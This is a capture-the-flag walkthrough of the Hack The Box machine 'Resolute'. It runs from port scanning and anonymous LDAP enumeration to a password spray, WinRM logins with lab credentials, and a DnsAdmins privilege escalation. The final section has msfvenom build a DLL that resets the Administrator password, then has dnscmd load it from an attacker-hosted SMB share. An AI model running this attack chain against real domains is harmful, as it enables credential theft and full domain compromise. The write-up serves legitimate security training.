# HTB - Resolute

**IP Address:** `10.129.96.155`  
**OS:** Windows Server 2016 Standard 14393  
**Difficulty:** Medium  
**Tags:** #ActiveDirectory, #LDAP, #PasswordSpray, #WinRM, #PowerShellTranscription, #DnsAdmins, #megabank

---
## Synopsis

Resolute is a Windows **Domain Controller** for **megabank.local**. Enumeration shows classic AD services (Kerberos, LDAP, SMB, WinRM). Anonymous **LDAP** exposes user metadata that leaks a **default onboarding password**, which validates after a **password spray** and grants **WinRM** as `melanie`. A **PowerShell transcript** on disk leaks credentials for **`ryan`**, who is a member of **`DnsAdmins`**. **Privilege escalation** abuses the DNS server **plugin DLL** mechanism (`ServerLevelPluginDll`) to run code as **SYSTEM** on the DC and reset the **Administrator** password, then **WinRM** as Domain Admin retrieves **root.txt**.

---
## Skills Required

- Basic **nmap**, **ldapsearch**, and **Active Directory** enumeration  
- **Password spraying** with lockout policy review (**LDAP** / domain policy)  
- **CrackMapExec** / **Evil-WinRM** for WinRM validation  
- Windows filesystem enumeration (hidden directories, **PowerShell** transcripts)  
- **DnsAdmins** abuse (**`dnscmd`**, malicious DLL, **SMB** hosting)

## Skills Learned

- Extracting credential hints from **LDAP** user attributes (**`description`**, etc.)  
- Building a controlled **password spray** workflow after policy checks  
- Finding secrets in **PowerShell transcription** logs  
- **DnsAdmins** → **DNS** service **plugin DLL** load → **SYSTEM** on the DC

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.96.155
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.96.155 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49670,49676,49677,49686,49710,49787 10.129.96.155 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s)   | Service        | Notes |
|-----------|----------------|--------|
| 53        | DNS            | Domain Controller |
| 88        | Kerberos       | AD authentication |
| 389 / 3268 | LDAP / GC   | `megabank.local` |
| 445       | SMB            | Signing enabled |
| 5985      | WinRM          | Remote management |
| 9389      | AD Web Services | ADWS |

No HTTP application on **80/443**. Add the hostnames to `/etc/hosts`:

```
10.129.96.155 megabank.local resolute.megabank.local resolute
```

---
## 2. Service Enumeration

### 2.1 SMB Enumeration

Guest and anonymous SMB do not expose useful shares here. Enumerate SMB and null-session behavior:

```bash
crackmapexec smb 10.129.96.155
```


```bash
smbclient -L //10.129.96.155 -N
```



```bash
smbmap -u 'guest' -p '' -H 10.129.96.155
```



---
### 2.2 LDAP Enumeration

Anonymous **LDAP** bind allows querying users and attributes. Dump the domain and search for onboarding text in **`description`** (and related fields):

```bash
ldapsearch -x -H ldap://10.129.96.155 -b "dc=megabank,dc=local" -s sub "*"
```



Filter for password-related context:

```bash
ldapsearch -x -H ldap://10.129.96.155 -b "dc=megabank,dc=local" \
  "(&(objectCategory=person)(objectClass=user))" sAMAccountName description | grep -i password
```


Build a username list for spraying:

```bash
ldapsearch -x -H ldap://10.129.96.155 -b "dc=megabank,dc=local" \
  "(&(objectCategory=person)(objectClass=user))" sAMAccountName | \
  grep "^sAMAccountName:" | awk '{print $2}' > users.txt
```



### 2.3 Account lockout policy

Before spraying, verify lockout settings:

```bash
ldapsearch -x -H ldap://10.129.96.155 -b "dc=megabank,dc=local" -s sub "*" | grep -i lockout
```


`lockoutThreshold: 0` indicates no account lockout in this lab, making a controlled spray safer.

---
## 3. Foothold

### 3.1 Password Spray

Spray the candidate default password derived from LDAP context against **`users.txt`**:

```bash
crackmapexec smb 10.129.96.155 -u users.txt -p 'Welcome123!' --continue-on-success
```



### 3.2 WinRM as `melanie`

Validate credentials and open **WinRM**:

```bash
crackmapexec winrm 10.129.96.155 -u melanie -p 'Welcome123!'
evil-winrm -i 10.129.96.155 -u melanie -p 'Welcome123!'
```



---
### 3.3 User flag

From the **WinRM** session as **`melanie`**, confirm context and read **`user.txt`**:

```powershell
whoami
cd ..\Desktop
type user.txt
```



🏁 **User flag obtained**

---
### 3.4 PowerShell Transcripts

Enumerate hidden folders on **`C:\`** and locate **PowerShell** transcription logs:

```powershell
Get-ChildItem C:\ -Force
cd C:\PSTranscripts\20191203
Get-ChildItem -Force
```



```powershell
type .\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```




The transcript leaks credentials for **`ryan`** (commonly via a mistyped **`net use`** command captured in the log).

### 3.5 WinRM as `ryan`

Validate the transcript-derived password over WinRM and open a shell as **`ryan`**:

```bash
crackmapexec winrm 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'
```



```bash
evil-winrm -i 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'
```



`C:\Users\ryan\Desktop\note.txt` states that only **Administrator** account changes persist under an automated revert policy—pointing toward a **Domain Admin** takeover.



---
## 4. Privilege Escalation

### 4.1 DnsAdmins and DNS plugin DLL

Confirm **`ryan`** group membership:

```powershell
whoami /groups
net user ryan
```



**`MEGABANK\DnsAdmins`** can configure the DNS service to load a **server-level plugin DLL**. Typical chain:

1. On the attacker host: build a DLL that runs a one-liner (e.g. reset **Administrator** domain password).  
2. Host the DLL over **SMB** (**`impacket-smbserver`**).

```bash
msfvenom -p windows/x64/exec cmd='net user Administrator admin123@ /domain' -f dll > privesc.dll
impacket-smbserver share . -smb2support
```



3. On the DC as **`ryan`**, register the DLL path and restart **DNS**:

```cmd
dnscmd localhost /config /serverlevelplugindll \\<ATTACKER_IP>\share\privesc.dll
sc stop dns
sc start dns
```

